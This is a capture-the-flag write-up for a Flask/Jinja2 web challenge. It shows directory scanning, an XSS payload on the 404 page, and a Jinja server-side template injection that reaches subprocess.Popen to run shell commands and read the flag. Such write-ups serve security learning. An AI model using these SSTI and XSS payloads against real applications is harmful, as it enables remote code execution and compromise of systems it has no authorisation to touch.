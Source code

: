 # Templated

- Difficulty: Easy
- Points: 20

## Steps I took to solve it

### 1. Inspect the site

I inpected the page and I have this information:

- The application uses Flask/Jinja2.
- The server is using Werkzeug/1.0.1 Python/3.9.0
- There is not robots.txt

Not alot, but this information is important.

### 2. Running dirsearch

I ran the following command: `dirsearch -u http://206.189.125.80:31875 -w ~/.git_pkgs/SecLists/Discovery/Web-Content/dirsearch.txt -o ./scans/dirseach-scans.txt` in order to scan any potential directories that could this flask app contain.

### 3. 404 Page

In the meanwhile I checked if the 404 page had XSS (which it has: `http://<FLASK_IP>:<FLASK_PORT>/<img src=x onerror='alert("XSS")'>`). The XSS made me think if I can use the same attack vector to exploit a potential Jinja SSTI (Server-Side Template Injection). After requesting the following resource: `http://<SITE>/{{ 1 + 1 }}`, I got `Page '2' could not be found`. 

### 4. Server-Side Template Injection

I read about SSTI for a bit and done the following things:

- `http://<SITE>/{{ [].__class__.__base__.__subclasses() }}` gave me a list of classes and modules used within the application.
- After inspecting the result, I found `<class 'subprocess.Popen' >` at index 414.
- `http://<SITE>/{{ [].__class__.__base__.__subclasses__()[414]("<command>", shell=True, stdout=-1).communicate() }}` allowed me to gain RCE.

I got the flag by using the following payload: `{{ [].__class__.__base__.__subclasses__()[414]("cat flag.txt", shell=True, stdout=-1).communicate() }}`.